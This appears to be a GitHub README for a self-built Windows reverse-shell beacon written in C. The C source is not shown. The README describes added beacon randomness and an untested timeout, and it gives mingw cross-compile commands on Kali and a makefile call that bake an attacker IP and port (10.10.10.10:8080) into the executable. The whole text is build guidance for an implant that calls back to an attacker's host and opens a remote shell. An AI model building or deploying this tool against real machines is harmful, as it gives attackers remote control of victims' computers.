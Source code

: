 This code was created by following on from https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/. I've taken some liberties and added some stuff like:

Really crappy randomness for the beacon and a timeout after X beacons to stop the thing running if something goes wrong. Also, I haven't tested that because I wasn't patient enough. 

To compile on Kali



```bash
apt install mingw-w64-i686-dev
apt install mingw-w64
i686-w64-mingw32-g++ rev.c -o build/rev.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -DIP=\"10.10.10.10\" -DPORT=8080
```
I've moved the IP address out of the source file into the -D switch. 

Or use the makefile (you still need to install the require stuff from above.)

```bash
make ATTK_HOST=10.10.10.10 ATTK_PORT=8080
```

To compile in windows install visual studio community and hunt down cl.exe, and the .bat files to set up the env vars (google around, I can't be bothered...)